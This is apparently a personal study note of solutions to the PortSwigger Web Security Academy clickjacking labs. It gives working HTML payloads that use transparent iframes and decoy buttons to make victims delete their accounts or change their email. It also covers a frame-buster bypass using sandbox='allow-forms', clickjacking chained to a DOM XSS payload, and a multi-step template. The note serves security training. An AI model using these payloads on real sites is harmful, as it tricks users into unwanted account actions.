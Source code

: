 Search For:
- Delete Account
- Change Email
- URL parameters to perform autofill Click Jacking
- Frame Buster bypass -> sandbox="allow-forms"
- Trigger XSS via GET parameter
- Multi step "click first", "click next" possible

Go to the exploit server and paste the following HTML template into the Body section:
```
<style>
    iframe {
        position:relative;
        width:2000px;
        height: 1600px;
        opacity: 0.0001;
        z-index: 2;
    }
    div {
        position:absolute;
        top:600px;
        left:500px;
        z-index: 1;
    }
</style>
<div>Click Me</div>
<iframe src="https://0ad000a60422737187416b2300850034.web-security-academy.net/my-account"></iframe>

Make the following adjustments to the template:

    Replace YOUR-LAB-ID in the iframe src attribute with your unique lab ID.
    Substitute suitable pixel values for the $height_value and $width_value variables of the iframe (we suggest 700px and 500px respectively).
    Substitute suitable pixel values for the $top_value and $side_value variables of the decoy web content so that the "Delete account" button and the "Test me" decoy action align (we suggest 300px and 60px respectively).
    Set the opacity value $opacity to ensure that the target iframe is transparent. Initially, use an opacity of 0.1 so that you can align the iframe actions and adjust the position values as necessary. For the submitted attack a value of 0.0001 will work.
```

##### Clickjacking with form input data prefilled from a URL parameter
Adding form values on the URL
![[Pasted image 20231218120951.png]]
```
Click jacking:
<style>
    iframe {
        position:relative;
        width:2000px;
        height: 1600px;
        opacity: 0.1;
        z-index: 2;
    }
    div {
        position:absolute;
        top:500px;
        left:500px;
        z-index: 1;
    }
</style>
<div>Click Me</div>
<iframe src="https://0a3d004b033a9e4986bdd7ff00ff004c.web-security-academy.net/my-account?email=pito@pito.com"></iframe>
```

![[Pasted image 20231218121053.png]]


##### Clickjacking with a frame buster script
Frame buster does not allow to add frames
```
add sanbox="allow-forms" in your iframe to bypass

<style>
    iframe {
        position:relative;
        width:2000px;
        height: 1600px;
        opacity: 0.1;
        z-index: 2;
    }
    div {
        position:absolute;
        top:500px;
        left:500px;
        z-index: 1;
    }
</style>
<div>Click Me</div>
<iframe src="https://0adc00cb04f7db7e80a9efdf00bb0021.web-security-academy.net/my-account?email=test@testiculo.com" sandbox="allow-forms"></iframe>
```

##### Exploiting clickjacking vulnerability to trigger DOM-based XSS

Theres a XSS on name parameter of sunmit feedback![[Pasted image 20231218125756.png]]
![[Pasted image 20231218125832.png]]

Clickjack that:
```
<style>
    iframe {
        position:relative;
        width:1000px;
        height: 900px;
        opacity: 0.1;
        z-index: 2;
    }
    div {
        position:absolute;
        top:815px;
        left:40px;
        z-index: 1;
    }
</style>
<div>Click me</div>
<iframe src="https://0a4300c403eab11c83244bc400650085.web-security-academy.net/feedback?name=<img src=x onerror=print()>&email=e@e.com&subject=caca&message=polla#feedbackResult"></iframe>
```


##### Multi-step click jacking
Delete and confirm account deleted
```
<style>
	iframe {
		position:relative;
		width:$width_value;
		height: $height_value;
		opacity: $opacity;
		z-index: 2;
	}
   .firstClick, .secondClick {
		position:absolute;
		top:$top_value1;
		left:$side_value1;
		z-index: 1;
	}
   .secondClick {
		top:$top_value2;
		left:$side_value2;
	}
</style>
<div class="firstClick">Test me first</div>
<div class="secondClick">Test me next</div>
<iframe src="YOUR-LAB-ID.web-security-academy.net/my-account"></iframe>
```